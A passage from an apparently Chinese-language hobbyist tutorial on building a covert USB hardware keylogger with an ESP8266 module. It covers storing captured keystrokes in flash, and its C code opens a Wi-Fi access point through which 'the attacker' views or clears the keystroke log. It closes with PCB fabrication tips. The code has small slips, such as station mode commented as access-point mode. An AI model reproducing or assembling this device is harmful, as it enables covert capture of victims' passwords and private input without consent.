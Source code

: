 SPIFSS(Serial Peripheral Interface Flash File System)是 ESP8266 模块自带的一个闪存，它的数据在断电后也不会丢失。

ESP8266-07S 模块中，这个闪存的大小为 4M，足够我们保存相当多的键盘记录了。*一个按键按下的记录信息大约要花32字节去存的话，4兆大约可以存按下键盘13万次的内容。*

最后是 WiFi 部分：创建一个 Wi-Fi 网络，攻击者连接上以后就可以查看或清空键盘记录。部分核心代码如下：
```C
#include <ESP8266WiFi.h>
#include <ESPAsyncTCP.h>
#include <ESPAsyncWebServer.h>

const char *ssid = "USBKeylogger";   // 创建的接入点的名称
const char *password = "12345678";   // 接入点的密码

AsyncWebServer server(80);           // 在 80 端口开启服务（ip 为 192.168.4.1）

void setup() {

  WiFi.mode(WIFI_STA);               // Wi-Fi为接入点模式
  WiFi.softAP(ssid,password);        // 开启Wi-Fi

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){         // 当访问根目录时显示记录内容
    request->send(SPIFFS, "/keyLog.txt", "text/plain");
  });

  server.on("/clear", HTTP_GET, [](AsyncWebServerRequest *request){    // 当访问“/claer”时清空已有记录(手机浏览器末尾写/clear即可清除先前的内容)
    logFile.close();
    logFile = SPIFFS.open("/keyLog.txt", "w");
    request->send(200, "text/plain", "Log File Cleared!");
  });
  server.begin();                                                      // 开启服务器
}
```

## 实物制作

为了更好的将电路集成，最好是将这些模块焊接在一块定制化的 PCB 电路板上(Printed Circuit Board，印制电路板，即电子元器件连接起来的支撑体)

现在大多数成熟的电子产品都是集成焊接在 PCB 板上的。因为 PCB 板可以更好的集成电子元件，使产品体积、结构上更优异，可以更稳定的运行。(手机，导航仪，电脑主板都是这样的)

推荐一个绘图工具：Altium designer
- 下载地址：https://www.altium.com.cn/ (好用，没广告，但是收费)

如果用普通的覆铜板也不是不可以，就是体积大，不美观。
